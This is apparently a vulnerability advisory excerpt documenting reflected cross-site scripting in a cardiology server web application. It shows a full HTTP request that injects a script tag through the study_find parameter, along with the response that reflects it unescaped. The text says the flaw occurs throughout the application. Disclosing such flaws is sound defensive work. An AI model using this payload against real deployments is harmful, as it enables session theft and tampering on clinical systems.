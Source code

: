 The following request demonstrates this issue. Note, Cross-Site Scripting is systemic throughout the application and this represents only a single instance.

Request:
```
GET /library/run_class.php?action=studyInbox&class=inbox&next=0&skip=&skipping=&smsort1=timestamp_performed&smsortorder1=ASC&archive=&smfield^study_site_code[]=All&smfield^study_mod_type[]=All&smfield^study_status_confirmed[]=Confirmed&smfield^date_performed[]=All&smfield^inbox_find_field[]=pat_name_last&smfield^study_find[]=%3cscript%3ealert(1)%3c%2fscript%3e&findNum=15 HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=usjkbm7uq578qf8oe7nsosmof2; cs_persist=a%3A11%3A%7Bs%3A11%3A%22idc_systype%22%3Bs%3A1%3A%221%22%3Bs%3A4%3A%22name%22%3Bs%3A12%3A%22cardioserver%22%3Bs%3A6%3A%22image1%22%3Bs%3A16%3A%22cardioserver.gif%22%3Bs%3A6%3A%22image2%22%3Bs%3A14%3A%22epiphanyhd.png%22%3Bs%3A6%3A%22image3%22%3BN%3Bs%3A3%3A%22css%22%3Bs%3A6%3A%22cs.css%22%3Bs%3A5%3A%22name2%22%3Bs%3A13%3A%22Cardio+Server%22%3Bs%3A8%3A%22trans_id%22%3BN%3Bs%3A13%3A%22user_language%22%3Bs%3A7%3A%22english%22%3Bs%3A12%3A%22display_type%22%3Bs%3A6%3A%22normal%22%3Bs%3A6%3A%22cmUser%22%3Bs%3A7%3A%22default%22%3B%7D;
```

Response body:
```
		<th colspan='5' class='header1' id="ib_summary"> 0 <span id='1195'>Studies Found</span><br> =  <br> = <script>alert(1)</script></th>
```
